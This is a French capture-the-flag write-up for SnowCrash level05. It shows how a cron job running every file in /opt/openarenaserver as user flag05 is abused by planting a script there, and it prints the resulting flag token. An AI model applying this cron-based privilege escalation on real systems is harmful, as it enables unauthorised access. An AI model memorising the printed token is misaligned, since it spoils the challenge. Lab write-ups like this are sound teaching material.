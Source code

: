 Aucun fichier n'est présent dans le dossier, mais on à reçu un mail.
```bash
You have new mail.
level05@SnowCrash:~$
```

```bash
level05@SnowCrash:/var/mail$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Il y a un script qui est lancé toute les deux minutes par le user flag05.


Il y a donc un script **openarenaserver** qui éxécute tout les fichiers du dossier **/opt/openarenaserver/** avant de les supprimer.
```bash 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Nous n'avons pas les droits d'éxécution sur le script **openarenaserver** mais la crontab l'éxécute régulièrement.

Il reste à créer un script dans le dossier */opt/openarenaserver* qui éxécutera la commande getflag et enverra le résultat dans un fichier hors du dossier pour qu'il ne soit pas supprimé.
```bash
echo "getflag > /tmp/openarena" > /opt/openarenaserver/flag
```

Une fois le temps écoulé on check le contenu du fichier : 
```bash
cat /tmp/openarena
Check flag.Here is your token : viuaaale9huek52boumoomioc
```